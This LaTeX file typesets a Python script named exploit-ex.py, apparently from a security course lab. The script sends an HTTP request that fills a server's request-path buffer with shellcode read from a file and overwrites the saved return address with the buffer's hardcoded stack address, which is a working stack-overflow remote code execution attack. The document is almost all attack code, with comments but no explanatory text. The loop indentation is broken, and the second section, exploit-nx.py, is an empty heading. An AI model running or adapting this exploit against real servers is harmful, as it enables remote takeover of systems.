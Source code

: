\documentclass[psamsfonts]{amsart}
\begin{document}
\newpage

\section{Code for exploit-ex.py}

\begin{verbatim}
#!/usr/bin/env python
import struct
import sys
import socket
import traceback
import urllib

reqpath = 0xffffdcdc
ebp     = 0xffffddf8
retaddr = ebp + 4

def build_exploit(shellcode):
  req = ("GET " +
  # First, fill up reqpath with shellcode
  urllib.quote(shellcode) +
  # Pad with "x"
  "x" * (retaddr - reqpath - len(shellcode)) +
  # Override return address with shellcode address
  urllib.quote(struct.pack("I", reqpath)) +
  " HTTP/1.0\r\n\r\n")
  return req

def send_req(host, port, req):
  sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  print("Connecting to %s:%d..." % (host, port))
  sock.connect((host, port))

  print("Connected, sending request...")
  sock.send(req)

  print("Request sent, waiting for reply...")
  rbuf = sock.recv(1024)
  resp = ""
  while len(rbuf):
  resp = resp + rbuf
  rbuf = sock.recv(1024)

  print("Received reply.")
  sock.close()
  return resp

if len(sys.argv) != 2:
  print("Usage: " + sys.argv[0] + " host:port")
  exit()
(host, port) = sys.argv[1].split(":")
port = int(port)

try:
  shellfile = open("shellcode.bin", "r")
  shellcode = shellfile.read()
  req = build_exploit(shellcode)
  print("HTTP request:")
  print(req)

  resp = send_req(host, port, req)
  print("HTTP response:")
  print(resp)
except:
  print("Exception:")
  print(traceback.format_exc())

\end{verbatim}

\newpage

\section{Code for exploit-nx.py}
\end{document}
